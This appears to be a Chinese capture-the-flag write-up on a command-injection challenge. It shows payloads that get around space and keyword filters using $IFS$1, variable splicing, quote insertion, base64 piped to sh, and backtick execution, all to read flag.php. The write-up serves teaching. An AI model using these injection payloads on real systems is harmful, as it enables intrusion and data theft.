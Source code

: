 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-25
---
```


## 思路

1. 本题最基本的Linux管道符|、&、;均可使用。

2. 利用ls，发现index.php和flag.php。

3. 说明本题最终目的很可能是读取flag.php来获得flag。

4. 测试如下：

   1. `ip=127.0.0.1;cat flag.php`  说明空格被过滤

      ![image-20210125210455150](images/image-20210125210455150.png)

      绕过空格过滤的方法：$IFS$1、${IFS}、<>、

   2. `ip=127.0.0.1;cat${IFS}flag.php`，显示如下，说明{}可能被过滤

      ![image-20210125211837441](images/image-20210125211837441.png)

   3. `ip=127.0.0.1;cat$IFS$1flag.php`，flag被过滤，说明$IFS$1可以绕过空格检查

      ![image-20210125211911716](images/image-20210125211911716.png)

   4. 因此需要使用一种方法能绕过对flag的检测

      一般对黑名单进行绕过有以下方法：

      - 拼接 c=fl;d=ad;cat $c$d
      - base64编码 echo "base64后的命令"|base64 -d|sh
      - 双引号、单引号 c""at fl''ag
      - 反斜线
      - $1、$2、$@

      本题payload为：

      - ?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh（将cat flag.php进行base64编码）
      - ?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
      - 内联执行 将反引号内命令的输出作为输入执行
        - ?ip=127.0.0.1;cat$IFS$1`ls`

   

## 总结

- 命令执行变量拼接
- 过滤bash用sh执行
- 内联执行